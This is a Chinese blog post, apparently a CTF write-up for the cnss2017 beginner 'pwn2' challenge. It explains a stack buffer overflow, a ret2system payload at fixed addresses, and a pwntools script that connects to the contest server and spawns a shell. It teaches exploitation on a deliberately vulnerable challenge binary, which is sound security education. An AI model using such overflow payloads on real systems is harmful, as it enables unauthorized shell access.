Title: cnss2017萌新赛writeup:pwn2  
Date: 2017-03-31 23:51:30  
Modified: 2017-03-31 23:51:30  
Tags: ctf,cnss2017萌新赛,pwn  
Slug: cnss2017萌新赛writeup:pwn2  
Summary: cnss2017萌新赛writeup:pwn2  
# 1. 分析
拿到程序后用ida f5反编译，查看`overflow_me`函数  
  
如图可看到scanf读入了32个字符并存放到了v1中  
接着查看`overflow_me`的`栈信息`  
  
可以看到在读入20个字符后就可以覆盖到返回地址  
(注：读入`0x10`个字符即`16`个字符后便可覆盖到`0`，再读入`4`个字符便可改写程序的`ret地址`)  
用`checksec`检查发现堆栈不可执行，ALSR显然是开启的  
查看函数时发现`callme`  
  
其中调用了system函数  
考虑可以通过栈溢出覆盖`overflow_me`的返回地址，使其跳转到system函数，从而拿到shell  
若是这样做，需要将指向`/bin/sh`这个字符串的`地址`作为`system`函数的参数  
在`export`窗口中可以看到，有个名为`shell`的全局变量  
  
双击查看后可看到其中存放了一个地址指向`/bin/sh`  
  
进而可以得知`/bin/sh`的地址为`0x08048780`  
  
考虑构造栈使`0x08048780`作为参数传入`system`函数  
# 2. 构造
构造栈信息可以用2种方法  
## 1. 观察法
首先在`overflow_me`结束后下一个断点  
  
执行程序并以`1234567890`作为标记让程序读入，观察其内存信息  
  
上图显然可以看出，`v1`的起始地址为`0xFFD02758`  
当前栈顶`esp`为`0xFFD02770`  
由函数调用的堆栈变化显然可以得知，若是将返回地址覆盖为`system`函数即`0x08048537`，则此时的栈顶`0xFFD02770`的值即对应着`system`的参数  
注：若是不明白函数调用的堆栈变化可以看本blog的[先占个坑]()   
将`eip`修改为`0x08048537`，并将`0xFFD02770`的数据修改为`0x08048780`  
  
运行可得知已经获得了shell  
  
观察内存知`1234567890`到ret的差值为`0x14`，到`0xFFD02770`的差值为`0x18`，只需构造字符串  
`'a' * 0x14 + '\x37\x85\x04\x08' + '\x80\x87\x04\x08'`  
即可  
## 2. 计算法
还是查看`overflow_me`的`栈信息`  
  
显然`v1`到ret地址的距离为`0x14`，考虑到程序会直接返回到`call system`，显然在ret地址的后面`4`字节为system的第一个参数  
因此构造  
`'a' * 0x14 + '\x37\x85\x04\x08' + '\x80\x87\x04\x08'`  
# 3. 写poc
直接上代码  
```python
#!/usr/bin/env python
from pwn import *
#program = process('./pwn2')
program = remote('ctf.cnss.studio', 5002)
ow_num = 0x14
ow_str = ''
ow_str += 'a' * ow_num
ow_str += p32(0x08048537)
ow_str += p32(0x08048780)
program.sendline('Y')
program.sendline(ow_str)
program.interactive()
```
注：p32可把地址直接按小端序化为文本  
执行后获得shell  
  